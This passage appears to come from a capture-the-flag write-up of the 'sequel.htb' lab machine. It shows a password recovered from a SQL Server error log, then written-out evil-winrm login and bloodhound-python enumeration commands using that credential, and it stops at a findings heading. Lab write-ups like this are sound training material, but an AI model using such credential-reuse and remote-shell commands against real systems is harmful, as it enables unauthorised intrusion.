 Upon performing some manual enumeration of the file system, I stumbled across a <mark style="color:yellow;">SQLServer</mark> directory.&#x20;

**C:\SQLServer\Logs\ERRORLOG.BAK**

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

#### Authenticating via WinRM

We can see that there was a failed logon attempt for a suspicious looking user of '<mark style="color:yellow;">NuclearMosquito3</mark>'. This clearly looks like a password. Let's try it with <mark style="color:yellow;">Ryan.Cooper</mark>!

```
evil-winrm -i sequel.htb -u Ryan.Cooper -p 'NuclearMosquito3'
```

### Ryan.Cooper -> Administrator

#### Bloodhound Enumeration (Remote)

```
bloodhound-python -d sequel.htb -v -u Ryan.Cooper -p NuclearMosquito3 -gc sequel.htb -c all -ns 10.129.202.159
```

I then placed all of this information into Bloodhound and was able to analyze the results.

#### Bloodhound Findings
